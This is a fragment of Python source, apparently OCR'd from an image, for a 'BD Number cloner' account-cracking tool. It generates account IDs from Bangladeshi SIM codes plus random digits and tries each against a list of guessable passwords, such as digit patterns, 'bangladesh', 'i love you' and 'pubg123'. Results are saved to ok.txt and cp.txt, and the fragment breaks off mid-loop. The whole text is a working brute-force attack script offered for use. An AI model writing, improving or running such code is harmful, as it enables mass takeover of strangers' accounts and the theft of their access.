 			yaari.submit(a,uid,pwx,tl)

	print(50*'_')

	print(' [💉] 𝐂𝐫𝐚𝐜𝐤 𝐩𝐫𝐨𝐜𝐞𝐬𝐬 𝐡𝐚𝐬 𝐛𝐞𝐞𝐧 𝐜𝐨𝐦𝐩𝐥𝐞𝐭𝐞𝐝')

	print(' [💉] 𝐈𝐝𝐬 𝐬𝐚𝐯𝐞𝐝 𝐢𝐧 𝐨𝐤.𝐭𝐱𝐭,𝐜𝐩.𝐭𝐱𝐭')

	print(50*'_')

	exit()

def virus():

	user=[]

	os.system('clear')

	print(logo)

	print(" 𝐒𝐢𝐦 𝐜𝐨𝐝𝐞 𝐄𝐱𝐚𝐦𝐩𝐥𝐞 : 𝟎𝟏𝟔, 𝟎𝟏𝟕, 𝟎𝟏𝟖, 𝟎𝟏𝟗")

	kode = input(' [★] 𝐄𝐧𝐭𝐞𝐫 𝐬𝐢𝐦 𝐜𝐨𝐝𝐞: ')

	doamin = ' 𝐁𝐃 𝐍𝐮𝐦𝐛𝐞𝐫 𝐜𝐥𝐨𝐧𝐞𝐫 '

	limit = int(input('[?] 𝐇𝐨𝐰 𝐦𝐚𝐧𝐲 𝐧𝐮𝐦𝐛𝐞𝐫𝐬 𝐝𝐨 𝐲𝐨𝐮 𝐰𝐚𝐧𝐭 𝐭𝐨 𝐚𝐝𝐝 : '))

	for nmbr in range(limit):

		koda = ''.join(random.choice(string.digits) for _ in range(2))

		kodb = ''.join(random.choice(string.digits) for _ in range(2))

		nmp = ''.join(random.choice(string.digits) for _ in range(4))

		user.append(nmp)

	with ThreadPool(max_workers=50) as yaari:

		os.system('clear')

		print(logo)

		tl = str(len(user))

		print(' \033[97;1m[🚀]  𝐓𝐨𝐭𝐚𝐥 𝐢𝐝𝐬  :\033[1;92m '+tl)

		print('\033[97;1m [🚀]  𝐔𝐬𝐚𝐫𝐚𝐠𝐞𝐧𝐭𝐬 : '+str(len(ugen)))

		print(f'\033[97;1m [🚀]\033[1;97m  𝐭𝐚𝐫𝐠𝐞𝐭 𝐬𝐢𝐦 𝐜𝐨𝐝𝐞 :\033[1;92m {kode} ')

		#print(f"\033[1;97m [🚀]  𝐂𝐡𝐨𝐢𝐜𝐞 :\033[1;92m {doamin}")

		print(' \033[1;97m[🚀]  𝐓𝐡𝐞 𝐩𝐫𝐨𝐜𝐞𝐬𝐬 𝐡𝐚𝐬 𝐛𝐞𝐞𝐧 𝐬𝐭𝐚𝐫𝐭𝐞𝐝')

		print(' [🚀]  𝐔𝐬𝐞 𝐇𝐞𝐥𝐢𝐜𝐨𝐩𝐭𝐞𝐫 𝐦𝐨𝐝𝐞 𝐢𝐟 𝐨𝐤 𝐢𝐝𝐬 😑 ')

		print(50*'_')

		for guru in user:

			uid = kode+koda+kodb+guru

			pwx = [koda+kodb+guru,kodb+guru,kode+koda+kodb,kode+kode,kode+'123',kode+'1234','bangladesh','i love you','freefire1122','pubg123']
